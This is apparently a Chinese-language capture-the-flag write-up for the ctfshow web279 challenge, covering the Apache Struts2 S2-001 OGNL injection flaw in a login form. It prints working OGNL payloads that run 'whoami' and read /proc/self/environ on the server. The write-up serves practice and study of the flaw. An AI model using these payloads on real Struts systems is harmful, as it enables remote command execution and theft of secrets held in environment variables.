 ## 写在前面

开始学习java

——KonDream 2022年2月9日20:17:19

## web279(S2-001 RCE)

>该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行
>
>- `%`的用途是在标志的属性为字符串类型时，计算OGNL表达式%{}中的值
来到登录页面，进行测试

![image-20220209202027317](https://cdn.jsdelivr.net/gh/KonDream/ctfshow-wp/ctfshow/web入门/image/ctfshow-java(279-300)/image-20220209202027317.png)

提交后回显

![image-20220209202050184](https://cdn.jsdelivr.net/gh/KonDream/ctfshow-wp/ctfshow/web入门/image/ctfshow-java(279-300)/image-20220209202050184.png)

证明漏洞存在

POC：

```java
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```

![image-20220209202405576](https://cdn.jsdelivr.net/gh/KonDream/ctfshow-wp/ctfshow/web入门/image/ctfshow-java(279-300)/image-20220209202405576.png)

最终payload:

```java
%{
#a=(new+java.lang.ProcessBuilder(new+java.lang.String[]{"cat","/proc/self/environ"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new+java.io.InputStreamReader(#b),
#d=new+java.io.BufferedReader(#c),
#e=new+char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new+java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```